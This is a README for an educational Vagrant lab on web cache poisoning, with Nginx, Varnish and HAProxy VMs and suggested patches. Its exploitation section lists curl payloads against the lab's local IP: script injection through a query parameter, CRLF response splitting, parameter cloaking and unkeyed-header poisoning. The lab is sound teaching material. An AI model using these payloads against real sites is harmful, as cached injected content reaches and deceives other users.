

# Cache Poisoning Lab

***Abioye Oyatoye***

This project is a Vagrant-based local lab designed to explore cache poisoning vulnerabilities, exploit them, and learn how to patch them. It simulates a web application stack with a web server, caching server, load balancer, and attacker machine, providing hands-on experience with cybersecurity concepts like cache key manipulation, HTTP response splitting, and parameter cloaking.

## Project Overview

The lab replicates a realistic web stack to study cache poisoning:

- **Web Server**: Nginx serving static and dynamic content.
- **Caching Server**: Varnish as a reverse proxy with caching capabilities.
- **Load Balancer**: HAProxy distributing traffic.
- **Attacker Machine**: A VM for simulating attacks.
- **Victim Client**: Your host machine to observe the effects.

The setup intentionally introduces vulnerabilities, demonstrates exploitation techniques, and then applies patches to secure the environment.

## Topology

Below is the network topology of the lab:



## Prerequisites

Vagrant
VirtualBox (or another Vagrant provider)
Basic knowledge of Linux, networking, and HTTP

## Installing Vagrant on Window

Read, download and install vagrant [here](https://www.geeksforgeeks.org/what-is-vagrant/)

## SnapShot on Installing VirtualBox on Windows System

Go download VirtualBox, go to the official site virtualbox.org and download the latest version for windows.


Then follow the step by step guide [Here](https://www.geeksforgeeks.org/how-to-install-virtualbox-on-windows/)

## Setup Instructions

Clone the Repository:

```bash
git clone git@github.com:Abwonder/Aboiye-DevSecOps-Projects.git
cd cache-poisoning-lab
```

Start the Lab:

```bash
vagrant up
```

This provisions four VMs: web, cache, lb, and attacker.
Access the Components:
    Web Server: 192.168.50.10
    Caching Server: 192.168.50.20
    Load Balancer: 192.168.50.30 (entry point)
    Attacker: 192.168.50.40

Usage
Exploring Vulnerabilities

**Cache Key Manipulation:**

1. From the attacker VM

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=><script>alert('Hacked')</script>"
```

2. Test as victim

```bash
curl "http://192.168.50.30/dynamic.php"
```

3. HTTP Response Splitting

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Alice%0d%0aContent-Length:%200%0d%0a%0d%0a><h1>Defaced!</h1>"
```

4. Parameter Cloaking

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Normal;user=><script>alert('XSS')</script>"
```

5. Unkeyed Headers

```bash
curl -H "Host: example.com" -H "Accept-Encoding: gzip" "<http://192.168.50.30/dynamic.php?user=><h1>Poisoned</h1>"
```

## Patching Vulnerabilities

There is another whole section one fixing the vulnerabilities, the link to the repository holding the Vagrantfile with the patched vulnerabilities can be cloned from [here]()

Re-provision VMs with updated configs:

```bash
vagrant provision web
vagrant provision cache
vagrant provision lb
```

Retest attacks to verify fixes (see configuration details in the Vagrantfile) - from the link above.

Files

Vagrantfile: Defines and provisions the VMs with initial vulnerable configs and patched versions.
README.md: This file.

## Learning Objectives

Understand how caching works in a web stack.
Exploit common cache poisoning techniques.
Implement mitigations like input sanitization, cache key normalization, and header validation.

## Patching Details

**Nginx:** Sanitizes input with htmlspecialchars and adds Cache-Control: no-store.
**Varnish:** Keys on headers, skips caching dynamic content, respects backend cache directives.
**HAProxy:** Rejects malformed headers and rate-limits requests.

## Contributing

Feel free to fork this repo, enhance the lab (e.g., add CDN caching), and submit pull requests!
License

MIT License - feel free to use and modify this lab for educational purposes.
